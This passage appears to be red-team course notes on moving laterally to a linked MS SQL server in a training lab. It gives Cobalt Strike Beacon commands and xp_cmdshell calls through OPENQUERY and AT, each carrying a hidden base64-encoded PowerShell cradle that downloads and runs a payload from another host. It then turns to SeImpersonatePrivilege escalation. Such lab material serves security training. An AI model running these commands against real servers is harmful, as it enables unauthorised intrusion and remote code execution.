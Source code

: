 To execute a Beacon on `SQL-1`, we can pretty much repeat the same steps as previously.  However, note that `SQL-1` may only be able to talk to `SQL-2` and not to `WKSTN-2` or any other machine in the `DEV` domain.

```
beacon> run hostname
sql-2

beacon> getuid
[*] You are DEV\mssql_svc (admin)

beacon> powershell New-NetFirewallRule -DisplayName "8080-In" -Direction Inbound -Protocol TCP -Action Allow -LocalPort 8080

beacon> rportfwd 8080 127.0.0.1 80
[+] started reverse port forward on 8080 to 127.0.0.1:80
```

**You can use `xp_cmdshell` on a linked server via `OpenQuery` (note that you need to prepend a dummy query) for it to work:**

```
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername; exec xp_cmdshell ''powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AcwBxAGwALQAyAC4AZABlAHYALgBjAHkAYgBlAHIAYgBvAHQAaQBjAC4AaQBvADoAOAAwADgAMAAvAGIAJwApAA==''')
```

**Or you can use the "AT" syntax:**

```
EXEC('xp_cmdshell ''powershell -w hidden -enc aQBlAHgAIAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAcwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AcwBxAGwALQAyAC4AZABlAHYALgBjAHkAYgBlAHIAYgBvAHQAaQBjAC4AaQBvADoAOAAwADgAMAAvAGIAJwApAA==''') AT [sql-1.cyberbotic.io]
```

`SQLRecon` also has a convenient <mark style="color:yellow;">`lxpcmd`</mark> module.

**Once the payload has been executed, connect to the Beacon:**

```
beacon> link sql-1.cyberbotic.io TSVCPIPE-ae2b7dc0-4ebe-4975-b8a0-06e990a41337
[+] established link to child beacon: 10.10.120.25
```

![](https://files.cdn.thinkific.com/file_uploads/584845/images/066/c4e/679/sql-1-beacon.png)

## MS SQL Privilege Escalation

This instance of SQL is running as <mark style="color:yellow;">`NT Service\MSSQLSERVER`</mark>, which is the default during more modern SQL installations.

It has a _**special type of privilege**_ called <mark style="color:yellow;">`SeImpersonatePrivilege`</mark>, which allows the account to "<mark style="color:$danger;">impersonate a client after authentication</mark>".
